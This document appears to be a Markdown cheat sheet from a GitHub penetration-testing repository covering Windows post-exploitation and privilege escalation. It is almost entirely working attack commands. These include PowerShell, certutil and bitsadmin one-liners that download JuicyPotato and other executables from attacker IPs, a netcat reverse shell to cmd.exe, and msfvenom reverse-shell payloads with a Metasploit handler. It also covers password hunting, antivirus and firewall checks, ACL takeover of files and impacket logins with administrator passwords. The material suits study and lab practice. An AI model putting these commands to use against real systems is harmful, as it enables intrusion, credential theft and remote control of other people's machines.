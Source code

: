 # Downloading Files
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.41:8000/JuicyPotato.exe','C:/Users/kohsuke/Desktop/JuicyPotato.exe')"

powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.10.14:7898/file.exe', 'file.exe')"

powershell -c '(Invoke-RestMethod -Uri "http://10.10.14.3:8000/JuicyPotato.exe" -Method Get -OutFile "jp.exe")'

powershell -c "Invoke-WebRequest -Uri 'http://10.10.10.14:7898/file.exe' -OutFile 'file.exe'"

powershell -c "$url = 'http://10.10.10.14:7898/file.exe'; $stream = [System.IO.StreamReader]::new($url); $content = $stream.ReadToEnd(); Set-Content -Path 'file.exe' -Value $content -Encoding Byte"

powershell -c "$client = New-Object Net.WebClient; $client.DownloadFile('http://10.10.10.14:7898/file.exe', 'file.exe')"

powershell -c "$url = 'http://10.10.10.14:7898/file.exe'; $request = [System.Net.HttpWebRequest]::Create($url); $response = $request.GetResponse(); $stream = $response.GetResponseStream(); $output = [System.IO.File]::Create('file.exe'); $stream.CopyTo($output); $output.Close(); $response.Close()"

certutil -urlcache -f http://YOUR_IP:PORT/filename.exe renamed.exe

bitsadmin /transfer myDownload /priority normal http://10.10.14.3:8000/JuicyPotato.exe jp.exe

nc

curl

wget

scp

echo c:\Users\kohsuke\Desktop\nc.exe 10.10.14.41 4455 -e cmd.exe > reverse.bat
```

# Metasploit Windows Reverse Shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4567 -f aspx > letmein.aspx 

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

```
# Manual Windows Reverse Shell
```
python3 -m http.server

#to get reverse shell from your kali
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4567 -f aspx > letmein.aspx 

msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4567 

cd C:\Windows\Temp
certutil -urlcache -f http://YOUR_IP:PORT/filename.exe renamed.exe
```
# Metasploit Windows suggester
```
background

use post/multi/recon/local_exploit_suggester

run SESSION=1
```


# Windows System Enumeration 
```
systeminfo

#32bit ? 64bit ? 68bit ?
wmic os get osarchitecture

systeminfo | findstr /b /c:"OS Name" /c:"OS Version" /c:"System Type"

wmic qfe

wmic qfe Caption,Description,HotFixID,InstalledOn

wmic logicaldisk

wmic logicaldisk get caption,description,providername

wmic logicaldisk get caption
```

# Windows User Enumeration 
```
whoami

whoami /priv

whoami /groups

net user

net user jack

net localgroup

net localgroup administrators
```

# Windows Network Enumeration 
```
ipconfig

ipconfig /all

#Check Incoming / Outgoing Network Traffic
arp -a

#Check route table
route print

#Check open ports
netstat -ano
```

# Windows Password Hunting
```
#find 'password' in current directory with extension of txt,ini and config
findstr /si password *.txt *.ini *.config

#find 'password' in whole C: directory
dir /s C:\* | findstr /i "password"
```

# AV Enumeration
```
#Check Window Defender is up or down
sc query windefend

#Check running services
sc queryx type= service

#Check FireWall Status
netsh advfirewall firewall dump
netsh firewall show state 

#Check FireWall configuration
netsh firewall show config
```

# Read Permissions
```
#possible if user is also admin
icacls C:\Users\Administrator\Desktop\root.txt /grant username:F

icacls C:\Windows\System32\net.exe /grant username:username:F

"F" for Full control, "M" for Modify, "R" for Read, "W" for Write, "X" for Execute

```
# Finding exe files
```
where /R c:\windows bash.exe
where /R c:\windows wsl.exe
```

# Login methods
```
 psexec.py administrator:'password'@MACHINE_IP
 
 smbexec.py administrator:'password'@MACHINE_IP
 
 wmiexec.py administrator:'password'@MACHINE_IP
```

# References

https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation

https://github.com/SecWiki/windows-kernel-exploits

